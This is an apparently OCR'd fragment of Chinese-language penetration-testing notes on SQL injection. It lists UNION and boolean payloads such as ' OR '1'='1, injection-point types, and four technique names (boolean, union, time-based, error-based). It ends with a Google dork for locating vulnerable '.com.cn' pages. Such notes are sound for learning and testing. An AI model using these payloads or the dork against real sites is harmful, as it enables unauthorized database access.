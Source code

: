    ```
   ?id=1' UNION SELECT 1,@@VERSION,3--
   ```

7. **逻辑测试：**

   ```
   ?id=1' OR '1'='1
   ?id=1' AND '1'='2
   ```

## 2 分类

数字型

```
select * from sec where id=1
```

字符型

```
select * from sec where id='1'
```

搜索型

```
select * from sec where id like '%1%'
```

json型

```
{
    "id":"1"
}
```

## 3 注入方式

布尔注入：

根据返回页面的真假判断

联合查询：

使用 union 注入

延时注入：

根据页面的响应时间判断

报错注入：

把注入的语句返回到页面中

## 4 查找

谷歌语法：`inurl:"php?id=" site:".com.cn"`
